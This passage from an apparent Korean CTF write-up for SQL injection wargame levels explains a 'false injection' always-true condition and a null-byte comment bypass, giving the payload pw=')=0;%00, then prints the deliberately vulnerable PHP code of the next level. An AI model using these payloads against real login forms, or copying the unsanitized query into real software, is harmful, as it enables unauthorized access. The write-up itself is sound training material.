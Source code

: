 1. False Injection
2. 주석 우회 기법

### False Injection
우선 False Injection이란 다음의 쿼리문을 보시면 됩니다.

```sql
select * from test where pw=''=0;
```

위의 쿼리문 중 where절의 조건은 항상 '참'인 결과가 나옵니다. 그 이유는 where 절에서의 동작이 다음의 순서로 이루어지기 때문입니다.

1. pw='' -> false
2. false = 0  -> true

아래와 같이 sql 에서는 false = 0의 연산에 대해서 '참'으로 판단하기 때문입니다.

![image](https://user-images.githubusercontent.com/33647663/158160387-3dd7a6aa-d6a5-4edf-9093-3a483f343301.png)

위의 결과에 따라서 이번 문제에서는 ')=0을 입력하면 다음과 같이 쿼리문이 완성됩니다.

```sql
select id from prob_nightmare where pw=('')=0
```

위의 where 절은 항상 true를 반환하는 상태이고 이 뒤로는 주석처리를 해줘야 합니다.

### 주석 우회 기법
mysql에서 남은 뒷부분에 대한 주석처리를 하기 위해서 가장 많이 사용하는 2가지 기법은 다음과 같습니다.

1. --%20
2. %23(#기호)

하지만 추가적으로 다음과 같은 방법도 가능합니다.

3. ;%00

본 문제에서는 1,2번 방법에 대해서 필터링을 하고 있기 때문에 3번의 방법을 이용합니다.

따라서 문제에서 요구하는 6글자 이내의 pw는 다음과 같습니다.

```
pw=')=0;%00
```

![image](https://user-images.githubusercontent.com/33647663/158161279-774633ce-5a99-421e-895c-0ae4871dc301.png)

# 19번(xavis)
## 문제

![image](https://user-images.githubusercontent.com/33647663/158161848-cf37be69-2324-4107-8c0e-740987efbd7f.png)


```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
```